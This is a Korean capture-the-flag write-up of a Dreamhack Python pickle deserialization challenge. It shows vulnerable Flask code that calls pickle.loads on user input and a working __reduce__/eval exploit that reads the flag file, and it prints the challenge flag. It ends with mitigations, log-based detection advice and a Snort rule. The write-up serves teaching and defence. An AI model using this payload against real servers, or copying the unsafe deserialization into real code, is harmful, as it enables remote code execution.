


# [Dreamhack] Web-Deserialize-Python - Web Hacking

## 1. 문제 개요

* **문제 링크:** [Dreamhack - web-deserialize-python](https://dreamhack.io/wargame/challenges/40)

* **분야:** Web

* **목표:** Python `pickle` 모듈의 Insecure Deserialization(안전하지 않은 역직렬화) 취약점을 악용한 임의 코드 실행(RCE) 및 플래그 획득.

## 2. 취약점 분석
제공된 소스 코드(`app.py`)를 분석한 결과, `/check_session` 엔드포인트에서 사용자 입력값 검증 누락에 의한 역직렬화 취약점 식별.

```python
# ... (중략) ...
@app.route('/check_session', methods=['GET', 'POST'])
def check_session():
    if request.method == 'GET':
        return render_template('check_session.html')
    elif request.method == 'POST':
        session = request.form.get('session', '')
        info = pickle.loads(base64.b64decode(session))
        return render_template('check_session.html', info=info)
# ... (중략) ...
```

* **분석 결론:** `pickle.loads()` 함수는 신뢰할 수 없는 데이터를 역직렬화할 때 매우 위험함. `pickle`은 객체 복원 시 `__reduce__` 매직 메서드를 자동으로 실행하므로, 공격자가 이를 오버라이딩하여 악의적인 페이로드를 구성하면 서버 측에서 임의의 파이썬 코드 실행(RCE) 가능.

## 3. 공격 수행
역직렬화 취약점을 트리거하는 페이로드를 생성한 뒤, 문제 서버에 전송하여 플래그 파일 읽기 시도.

### 3.1. 익스플로잇 스크립트 작성

1. 로컬 환경에서 `__reduce__` 메서드를 오버라이딩한 `Exploit` 클래스 작성.

2. `check_session.html` 템플릿이 반환값을 딕셔너리(`{'name':..., 'userid':..., 'password':...}`) 형태로 렌더링하므로, 타입 에러(HTTP 500) 방지를 위해 `eval` 함수와 함께 딕셔너리를 반환하도록 페이로드 구성.

3. `open('flag.txt').read()`를 삽입하여 서버 내부의 플래그 문자열을 딕셔너리의 `name` 키에 매핑.

### 3.2. 페이로드 생성 및 전송

4. 작성한 파이썬 스크립트를 실행하여 Base64로 인코딩된 직렬화 페이로드(`gASV...` 형태) 획득.

```python
#!/usr/bin/env python3
import pickle
import base64

class Exploit:
    def __reduce__(self):
        return (eval, ("{'name': open('./flag.txt', 'r').read(), 'userid': '', 'password': ''}",))

payload = base64.b64encode(pickle.dumps(Exploit())).decode('utf8')
print(payload)
```



5. 문제 서버의 `/check_session` 페이지에 접속하여 `session` 파라미터 입력 폼에 생성한 페이로드를 삽입 후 `POST` 요청 전송.

## 4. 획득 결과
화면 렌더링 결과, 딕셔너리의 `Name` 필드에 정상적으로 서버의 플래그 내용이 노출된 것 확인.

* **FLAG:** `DH{a6daba2e0cc5b22fed1aaf44d10a45a0}`



## 5. 대응 방안
신뢰할 수 없는 외부 입력값에 대한 무분별한 역직렬화 수행 지양 및 안전한 데이터 포맷 적용을 위한 시큐어 코딩 필수.

* **안전한 데이터 포맷 사용:** `pickle` 대신 역직렬화 과정에서 코드가 실행되지 않는 `json` 등의 안전한 데이터 교환 포맷 사용.

* **데이터 무결성 검증 (서명 도입):** 애플리케이션 구조상 불가피하게 직렬화/역직렬화를 사용해야 할 경우, `hmac` 등을 활용하여 세션 데이터에 암호학적 서명(Signature)을 덧붙이고 역직렬화 수행 전 위변조 여부를 엄격하게 검증하는 로직 구성.

## 6. 블루팀 관점 요약
보안관제 및 침해사고 대응(IR) 관점에서 웹 애플리케이션의 Insecure Deserialization을 악용한 RCE 공격 모니터링 및 방어.

* **WAF 및 웹 서버 로그 분석:** Error 로그 상에서 `pickle.UnpicklingError` 또는 타입 불일치로 인한 `HTTP 500 Internal Server Error` 반복 발생 여부 중점 모니터링. Access 로그 및 HTTP 요청 본문 분석 시, `session` 파라미터 값에 `pickle` 프로토콜 4의 시그니처가 Base64 인코딩된 형태(`gASV`)가 비정상적으로 입력되는 트래픽 식별.

* **침해사고 대응 (IR) 시나리오:** 특정 IP 대역에서 `/check_session` 등 세션 검증 엔드포인트에 `gASV`로 시작하는 긴 문자열을 지속 전송할 경우 익스플로잇 시도로 간주. 해당 IP의 접근을 차단 조치하고, 공격 시도 시간대 이후 비정상적인 외부 아웃바운드 통신(Reverse Shell) 또는 서버 내 중요 파일(`flag.txt`, `/etc/passwd` 등) 접근 로그 존재 여부 추적.

* **네트워크 기반 탐지 룰 제안 (Snort):**
  - POST 요청 본문(Client Body)에서 `session` 파라미터에 Python Pickle의 Base64 인코딩 시그니처(`gASV`)가 포함된 패턴 탐지.

  ```snort
  alert tcp $EXTERNAL_NET any -> $HTTP_SERVERS $HTTP_PORTS (msg:"[Web] Python Pickle Insecure Deserialization Attempt"; flow:to_server,established; http_method; content:"POST"; http_client_body; content:"session="; content:"gASV"; distance:0; sid:1000005; rev:1;)
  ```